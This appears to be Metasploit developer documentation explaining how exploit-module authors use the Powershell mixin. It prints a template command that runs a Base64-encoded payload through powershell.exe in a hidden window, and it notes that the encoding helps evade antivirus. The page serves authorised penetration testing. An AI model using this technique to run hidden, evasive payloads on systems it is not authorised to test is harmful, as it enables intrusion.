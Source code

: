 Powershell is a scripting language developed by Microsoft. It provides API access to almost everything in a Windows platform, less detectable by countermeasures, easy to learn, therefore it is incredibly powerful for penetration testing during post exploitation, or exploit development for payload execution. Take Metasploit's windows/smb/psexec_psh.rb module for example: it mimics the psexec utility from SysInternals, the payload is encoded in Base64 and executed from the command line, which allows it to be less detectable by antivirus. There's only less than 30 lines of code in psexec_psh.rb (excluding the metadata that describes what the module is about), because most of the work is done by the Powershell mixin, nothing is easier than that.

### Requirements

To use the Powershell mixin, make sure you meet these requirements:

* The target machine supports Powershell. Vista or newer should support it.
* You must have permission to execute powershell.exe
* You must be able to supply system command arguments.
* You must set up a command execution type attack in order to execute powershell.exe

### Usage

* To add Powershell to your module, first you need to require it:

```ruby
require 'msf/core/exploit/powershell'
```

* And then include the mixin within the scope of the ```Metasploit3``` class (or maybe ```Metasploit4``` for some)

```ruby
include Msf::Exploit::Powershell
```

* Use the ```cmd_psh_payload``` method to generate the Powershell payload.

```ruby
cmd_psh_payload(payload.encoded)
```

The actual output of ```cmd_psh_payload``` is a system command, which would look like the following format (as a one-liner):

```
%COMSPEC% /B /C start powershell.exe -Command $si = New-Object
System.Diagnostics.ProcessStartInfo;$si.FileName = 'powershell.exe';
$si.Arguments = ' -EncodedCommand [BASE64 PAYLOAD] ';
$si.UseShellExecute = $false;
$si.RedirectStandardOutput = $true;$si.WindowStyle = 'Hidden';
$si.CreateNoWindow = $True;
$p = [System.Diagnostics.Process]::Start($si);
```

### References

https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/powershell.rb

https://github.com/rapid7/metasploit-framework/blob/master/data/exploits/powershell/powerdump.ps1